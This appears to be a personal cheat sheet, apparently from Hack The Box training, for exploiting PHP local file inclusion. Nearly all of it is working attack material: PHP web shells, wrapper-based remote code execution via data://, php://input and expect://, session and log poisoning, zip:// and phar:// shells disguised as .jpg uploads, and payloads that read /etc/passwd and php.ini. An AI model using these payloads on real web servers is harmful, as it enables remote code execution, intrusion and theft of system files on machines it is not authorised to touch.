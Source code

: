 # Useful Links

# Useful Commands

HTTP Server
```bash
sudo python3 -m http.server <LISTENING_PORT>
```

FTP Server
```bash
sudo python3 -m pyftpdlib -p 21
```
SMB Server
```bash
impacket-smbserver -smb2support share $(pwd)
```
Checking PHP Configurations
```bash
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include
```

Base64 PHP Shell
```bash
echo '<?php system($_GET["cmd"]); ?>' | base64
```
#### PHP Wrappers
```
[/htb]$ curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
[/htb]$ curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
[/htb]$ curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```
#### PHP Session Poisoning
```
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id
```
```
[/htb]$ curl -s "http://<SERVER_IP>:<PORT>/index.php" -A "<?php system($_GET['cmd']); ?>"
[/htb]$ curl -s http://83.136.252.44:46301/ilf_admin/index.php?log=../../../../../../../../../../../../../var/log/nginx/access.log&cmd=id
```
# Useful Payloads
```php
<?php file_get_contents('/etc/passwd'); ?>
<?php system('cat /flag.txt'); ?>
<?php system($_REQUEST['cmd']); ?>
```
```
[/htb]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```
```
(http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id)
```
### Phar Upload
Finally, we can use the phar:// wrapper to achieve a similar result. To do so, we will first write the following PHP script into a shell.php file:
```
Code: php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```
```
[/htb]$ php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```
```
http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```
